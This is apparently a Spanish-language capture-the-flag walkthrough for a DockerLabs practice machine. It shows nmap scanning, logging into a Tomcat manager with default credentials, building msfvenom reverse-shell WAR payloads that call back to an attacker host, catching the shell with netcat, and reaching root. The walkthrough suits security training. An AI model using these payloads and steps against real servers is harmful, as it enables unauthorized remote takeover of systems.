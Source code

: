 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "-Pn".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh pn.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.18.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene  abierto el puerto 8080 donde corre un Tomcat.
```
8080/tcp open  http    syn-ack ttl 64 Apache Tomcat 9.0.88
|_http-title: Apache Tomcat/9.0.88
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
MAC Address: 02:42:AC:11:00:02 (Unknown)

```
Vamos pues a acceder al puerto 8080, por lo que vamos a poner la IP de la maquina victima seguida del puerto en el navegador Web y vemos que sale la pagina por defecto del Apache Tomcat.

Se puede observar tambien que hay una parte, en la linea del "tomcat9-admin" donde pone "manager webapp" donde pincharemos y se nos abrira un panel Login.

Hay que entender ahora una cosa y es que, por defecto, Apache Tomcat ya viene con unas credenciales por defecto.

Para obtenerlas, buscamos en Google "hacktricks apache tomcat default credentials" y en la propia Web de "hacktricks" iremos al siguiente enlace:

	https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat

Una vez estemos en esta pagina, iremos a la seccion donde pone "Default credentials" donde se veran varias posibles contraseñas, las cuales habria que ir probando una por una.

Un truquito, aunque no siempre funciona, seria darle a "Cancel" en el panel de Login, y al darnos el error 401 de "No autorizado" suelen dar las credenciales.

Pero como como acabo de decir, NO siempre funciona.
```
401 Unauthorized

You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation.

That file must contain the credentials to let you use this webapp.

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

	<role rolename="manager-gui"/>
    <user username="tomcat" password="s3cr3t" roles="manager-gui"/>
```
Bien, ya sabiendo el usuario y la contraseña, hacemos login, vamos al panel de administracion de Tomcat y nos ubicamos en la zona donde pone "WAR file to deploy", donde podremos subir archivos maliciosos en formato ".war" para poder ganar acceso a dicha maquina victima.

¿Y como creo un archivo malicioso? EXACTO !!! Con MSFVENOM !!!
```
msfvenom -p java/shell_reverse_tcp LHOST=IPMAQUINAATACANTE LPORT=PUERTOMAQUINAATACANTE -f war -o NOMBREARCHIVOQUEQUERAMOS.war
            
	-p java/shell_reverse_tcp = ponemos el payload reverse shell de JAVA debido a que los archivos ".war" funcionan con JAVA
```
 Una vez tengamos el archivo, lo subiremos y probaremos si funciona. ¿Por que digo probaremos si funciona?
 
 Porque lo normal es que lo haga, pero muchas veces, y dependiendo de como este hecho el servidor puede funcionar o no.
 
 Para ello, vamos a ver dos opciones (bueno, en realidad 2 Payloads diferentes):d
```
1) msfvenom -p java/shell_reverse_tcp LHOST=192.168.1.150 LPORT=443 -f war -o reverse1.war

2) msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.150 LPORT=443 -f war -o reverse2.war
```
Como he dicho antes, esto depende de come este configurado el servidor Tomcat, por lo que asi nos aseguramos que alguno de los dos funcione.

Ahora subimos los dos y nos apareceran en la pantalla de control del Tomcat Web Manager App:
```
/reverse1 	None specified 	  	true 	0 	 Start with idle ≥  minutes 
/reverse2 	None specified 	  	true 	0 	 Start with idle ≥  minutes 
```
Perfecto, ya tenemos los dos archivos subidos. Lo siguiente, COMO SIEMPRE, es ponernos a la escucha con NETCAT usando el comando:
```
nc -nlvp 443
```
y ejecutar los archivos uno por uno para ver cual de los dos funciona (o los 2 :P)

Ejecutado el primero, ya vemo que SI funciona:
```
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 36530  
```
Perfecto !! Ahora sin embargo, hay que hacer, COMO SIEMPRE, un tratamiento de la TTY escribiendo lo siguiente:
```
(El tratamiento TTY SIEMPRE es igual)

	script /dev/null -c bash
	Ahora presionamos (CTRL + Z)
	stty raw -echo; fg
	reset xterm
	export TERM=xterm
	export SHELL=bash
```
Una vez terminado el tratamiento de la TTY, vemos que ya somos "root", pero para asegurarnos, escrimos "whoami" y listo :) !!
```
root@aad1731916f7:/# whoami
root

root@aad1731916f7:/# 
```
Y en principio, con esto ya estaria la maquina "-Pn" terminada.
